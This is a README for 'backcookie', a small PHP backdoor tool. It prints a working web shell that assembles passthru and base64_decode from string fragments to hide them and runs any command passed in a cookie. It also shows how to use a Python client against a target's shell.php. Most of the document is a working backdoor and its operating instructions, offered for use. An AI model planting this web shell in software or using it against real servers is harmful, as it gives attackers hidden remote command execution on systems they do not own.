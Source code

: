 backcookie
==========


Small backdoor using cookie.

==========

```php
<?php
# the code of the backdoor used
$bOne = "pa"."ss"."th"."ru";
$bTwo = "ba"."se"."64"."_"."de"."co"."de";
$bKey = "yourcookie"; # conection backdoor
$bOne($bTwo($_COOKIE[$bKey]));
?>
```

```
Example one: python backcookie.py -u http://target.com/shell.php -c name_cookie
```
```
Example two: python backcookie.py --url http://target.com/shell.php --cookie name_cookie
```
Custom command (binfo), You get objective information
```
@pwned:~$ binfo
```

Custom command (exit), to exit.
```
@pwned:~$ exit
```

* Inserted in -> [blackarch](http://blackarch.org/tools.html)

## Happy hacking!

-------------

Copyright, 2013 - 2016 by [Jose Pino](http://twitter.com/jofpin)

-------------
